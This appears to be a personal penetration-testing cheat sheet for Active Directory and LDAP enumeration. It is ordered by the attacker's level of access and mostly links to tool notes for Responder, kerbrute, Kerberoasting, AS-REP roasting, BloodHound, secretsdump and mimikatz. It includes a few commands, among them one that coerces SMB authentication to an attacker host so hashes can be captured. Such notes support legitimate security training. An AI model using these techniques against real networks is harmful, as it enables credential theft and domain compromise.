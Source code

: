 # ldap - Enumeration

## Keep in mind

   https://github.com/Andre92Marcos/escalations/blob/master/active_directory_attacks_enumeration.md
   https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

## Check for attacks

petit-potam: https://github.com/AndreMIsidoro/escalations/blob/master/ad_attacks_enum/petitPotam.md


## For connections

   winrm: evil-winrm
   for smb: impacket-psexec
   for wmi: impacket-wmiexec

## When we dont have anything

### Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


### Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we get a new password do a kerbrute passwordspray

https://github.com/AndreMIsidoro/tools/tree/master/kerbrute

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


Try to do some ASREProasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/ASREProasting.md

If we are successful we can also try to do some Kerberoasting no preauthentication

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md#kerberoast-no-pre-authentication

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

## When we have a domain username and a password

We can request a TGT

   https://github.com/AndreMIsidoro/tools/blob/master/impacket/getTGT.md

Try to do some Kerberoasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use group3r

   https://github.com/Andre92Marcos/tools/tree/master/group3r

Use ADRecon

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md

If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When we have a TGT and there is certificate authentication in the domain

User certipy to find vulnerabilities (for example, after a shadow credentials attack)

https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/shadow_credentials.md
https://github.com/Andre92Marcos/tools/blob/master/certipy-ad/README.md#find



## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>